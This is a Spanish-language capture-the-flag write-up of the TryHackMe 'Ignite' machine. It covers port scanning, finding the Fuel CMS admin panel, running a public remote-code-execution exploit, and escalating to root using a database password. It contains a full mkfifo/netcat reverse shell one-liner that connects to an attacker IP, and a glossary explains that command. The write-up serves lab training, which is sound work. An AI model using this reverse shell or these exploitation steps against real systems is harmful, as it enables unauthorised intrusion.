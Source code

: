 # Machine Ignite

## Informtion Gathering

1. Primero realizo un escaneo de puerto asi:

```
$ nmap -sV 10.10.169.195
``` 
2. El resultado es el siguiente:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## Analisis de vulnerabilidades

- Voy a nessus a realizar un escaneo pero no hay nada util

- Luego ejecute dirb de esta manera
```
$ dirb http://10.10.169.195:80
```
- El resultado que me genero son varias URL y la mas importante es esta
```
http://10.10.169.195:80/robots.txt (CODE:200|SIZE:30)
```
- ya que contiene la URL del panel admin

## Exploiting

- Probe el puerto **80** y tenia como con una pagina del **Fuel CMS**
- las credenciales son **admin** para entrar al panel de administración
- Decido subir un **shell_reverse** y conectarme con **Netcat** pero no me funciono
- Decido buscar por internet un exploit para el **Fuel CMS** y encontre une de **Code Execute**
```
https://www.exploit-db.com/exploits/47138
```
- Luego lanzamos el exploit de esta manera
```
$ python reverse.py
```
- Ya con esto podemos usar el **shell** pero vamos a usar algo mas versatil
- Vamos a usar un **Netcat** para realizar una **shell**
```
$ nc -nlvp 1337
```
- Luego debemos buscamos una manera de enviar una shell a **Netcat**
- Para eso en el exploit que tenemos en **Python** vamos a ejecutar esto
```
"rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.35.145 1337 >/tmp/f"
```
- La direccion IP es la interfaz **tun0**
- Ya con esto tenemos una **Shell**
- En el usuario **www-data** se encuentra el la bandera **User.txt**
- Luego vamos a ir al archivo **fuel/application/config** para poder buscar el archivo **database.php**
- En ese archivo se encuantra la contraseña de **root**
- Luego vamos a correr el usuario de esta manera **sudo - root**
- Ya con esto podemos sacar el archivo **root.txt** 

## Glosario

**nc:**Llama a la aplicacion netcat

**-n:**no realice ninguna búsqueda de DNS o servicio

**-l:**escucha una conexión entrante en lugar de iniciar una conexión a un host remoto

**-v:**usa salida detallada

**-p:**especifica el puerto de origen que nc debería usar

**1337:**el puerto en el que nc escuchará las conexiones entrantes

**rm /tmp/f;**elimina cualquier directorio preexistente llamado **/tmp/f**, el punto y coma finaliza el comando similar a presionar la tecla ENTER, es decir que estamos borrando el archivo **f** dentro de el directorio de almacenamiento temporal

**mkfifo /tmp/f;** crea una tubería con nombre en la ubicación **/tmp/f** , el punto y coma termina el comando 

**cat /tmp/f |**muestra el contenido de **/tmp/f** y canaliza los resultados al siguiente comando 

**/bin/sh -i 2> & 1 |**invoca el binario de shell predeterminado, el **-i** le dice que use el modo interactivo, redirija stderr2 al mismo destino que stdout1 y canalice eso al siguiente comando 

**nc 10.8.6.159 1337 > /tmp/f**dile a netcat que se conecte a la IP y al PUERTO remotos y redirigir esa salida a la tubería nombrada

**tty**:

## Investigación

https://www.howtoforge.com/linux-mkfifo-command/

https://www.howtogeek.com/428174/what-is-a-tty-on-linux-and-how-to-use-the-tty-command/

## Explotación maquina Ignite

https://exploits.run/ignite/

https://unicornsec.com/home/tryhackme-ignite

https://blog.tryhackme.com/ignite-writeup/

https://www.embeddedhacker.com/2019/08/hacking-walkthrough-ignite-ctf/

https://nvd.nist.gov/vuln/detail/CVE-2018-16763
